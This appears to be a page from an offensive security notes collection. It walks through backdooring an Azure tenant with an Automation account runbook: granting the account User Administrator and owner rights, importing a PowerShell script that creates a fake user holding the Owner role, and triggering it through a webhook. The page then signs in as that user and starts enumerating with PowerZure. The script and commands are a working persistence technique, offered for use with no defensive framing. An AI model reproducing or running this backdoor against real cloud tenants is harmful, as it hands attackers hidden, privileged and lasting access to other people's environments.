# Runbooks / Automation accounts

## Runbooks / Automation accounts

Used for automating tasks like script

Can be also used to create a backdoored user :\)

* Powershell and python2.7 are supported

#### Create an Automation Account





* From AD azure, go to "Roles and Administrators" and select "User Administrator" \(click on description\)


* From the IAM menu, add the Automation account as owner



* In "User Administrator", use "Assignement" menu and add a new one \(search for your Automated account\)





* Back To Automation menu, select your fake account. Then select "Modules gallery" menu and add "**Az.Accounts**" and "**Az.Resources**"







* Back to Automation menu, select your account and import a RunBook



* Create a powershell script and import it 

```bash
Import-Module Az.Accounts
Import-Module Az.Resources

$user = "YOUR_ACCOUNT"
$pass = "YOUR_PASSWORD"

$Nickname = "FakeSVC"
$DisplayName = "fake_service"

$connectionName = "AzureRunAsConnection"

$servicePrincipalConnection = Get-AzAutomationConnection -Name $connectionName

Connect-AzAccount -ServicePrincipal -TenantId $servicePrincipalConnection.TenantId -ApplicationId $servicePrincipalConnection.ApplicationId -CertificateThumbprint $servicePrincipalConnection.CertificateThumprint

$SecureStringPassword = ConvertTo-SecureString -String $pass -AsPlainText -Force

New-AzADUser -DisplayName $DisplayName -UserPrincipalName $user -Password $SecureStringPassword -MailNickname $Nickname
New-AzRoleAssignment -SignInName $user -RoleDefinitionName Owner
```



* Publish it



* Add a WebHook and copy the URL





* Create/Confirm



* Active the backdoor

```csharp
Invoke-WebRequest -Method Post -Uri "https://2REDACTED5.webhook.we.azure-automation.net/webhooks?token=%2bREDACTED%3d" -Verbose
```



* Connect using the backdoored account using the command

```csharp
Connect-AzAccount
```



* Import PowerZure and start enumeration



### Resource



